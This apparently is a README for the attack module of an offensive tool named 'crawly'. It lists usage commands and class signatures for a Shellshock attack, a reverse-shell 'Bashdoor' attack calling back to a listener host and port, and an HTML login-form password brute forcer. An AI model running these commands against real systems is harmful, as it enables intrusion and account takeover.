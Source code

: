 # Attack

# File

- [x] attack.py

This file contains attacking classes of crawly. Each class instancied is auto runned with the gived paremeters.

# Shellshock / Bashdoor

```
# CLI command
crawly -A http://www.test.com/cgi-bin/vuln.cgi --shellshock
crawly -A http://www.test.com/cgi-bin/vuln.cgi --bashdoor --lhost 192.168.1.2 --lport 4444
```
```python
class Shellshock:
    def __init__(self, URL)

class Bashdoor:
    def __init__(self, RURL, LHOST, LPORT)
    
>>> import crawly
>>> URL = "http://www.test.com/cgi-bin/vuln.cgi"
>>> crawly.Shellshock(URL)
>>> crawly.Bashdoor(URL, "192.168.1.2", 4444)
```

# HTML form bruteforcer
```
Can break simple HTML forms.

```python
class HTMLBrute:
	def __init__(self, URL, USERFIELD="username", PASSFIELD="password", ERRORMSG="Error", 
		USER="admin", WORDLIST, THREADS)

>>> import crawly
>>> crawly.HTMLBrute("http://test.com/admin.php", ERRORMSG="Login Error", USER="webmaster", WORDLIST="pass_list.lst", THREADS=35)
